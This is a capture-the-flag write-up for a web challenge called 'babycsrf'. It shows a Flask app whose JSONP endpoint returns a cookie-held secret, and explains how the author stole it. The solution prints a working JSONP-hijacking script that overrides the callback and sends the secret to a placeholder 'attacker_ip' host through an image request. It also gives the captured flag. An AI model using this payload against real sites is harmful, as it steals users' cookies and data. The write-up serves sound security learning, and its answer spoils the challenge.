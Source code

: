 # babycsrf (Web)

**Description**

*"JSONP is a old pattern for getting data into JS, but I heard it's insecure because an attacker can specify code instead of a function name. I solved this problem by not letting you change the name.
For this challenge you will need to submit a URL to the admin bot (a program that runs a browser and directs it to visit your URL, simulating a real person clicking your link). I recommend learning how to use ngrok if you don't know how to expose local solutions to the internet - I've also provided a template server using Python and Flask for your solution."*

**Challenge Code: chal.py**

```
from flask import Flask, request

app = Flask(__name__)

with open("home.html") as home:
    HOME_PAGE = home.read()

@app.route("/")
def home():
    return HOME_PAGE

@app.route("/api")
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"

app.run(port=12345)
```

**Challenge Code: home.html**
```
ome.html 
<!DOCTYPE html>
<html>
    <body>
        <h4>Welcome to my home page!</h4>
        Message of the day: <span id="message">(loading...)</span>
        <script>
window.setMessage = (m) => {
    document.getElementById("message").innerText = m;
}
window.onload = () => {
    s = document.createElement("script");
    s.src = "/api";
    document.body.appendChild(s);
}
        </script>
    </body>
</html>
```

**Solution**

The challenge provides a JSONP API endpoint.

```
@app.route("/api")
def page():
    secret = request.cookies.get("secret", "EXAMPLEFLAG")
    return f"setMessage('irisctf{{{secret}}}');"
```

I read up on JSONP and learned that it is dangerous because it is vulnerable to CSRF attacks and can be used to bypass the browser's SOP.
A page with malicious code can override functions of the victim.
To get the flag I started two python webservers.
The first one which provides the malicious code and whose URL I give to the admin bot and another one which receives the flag via GET request.

**1.** `$python3 -m http.server 1234` - Server with our malicious code.

```
<script>
                    var target="http://attacker_ip:9876/catch";
                    function setMessage(o){
                    var ref = o;
                        var inner = function() {
                            var response = "";

                        for(var x in ref ) {
                           response += ref[x] + "";
                        }
                        new Image().src=target +escape(response);
                    };
                    setTimeout(inner,100);
                    }
                </script>
                <script src="https://babycsrf-web.chal.irisc.tf/api">
</script>
```

**2.** `$python3 -m http.server 9876` - Server that receives our flag.

Now we give the admin-bot the URL of our first server and get our flag in the GET request on the second server.

`GET /catchirisctf%7Bjsonp_is_never_the_answer%7D HTTP/1.1" 404 -`

`isctf{jsonp_is_never_the_answer}`



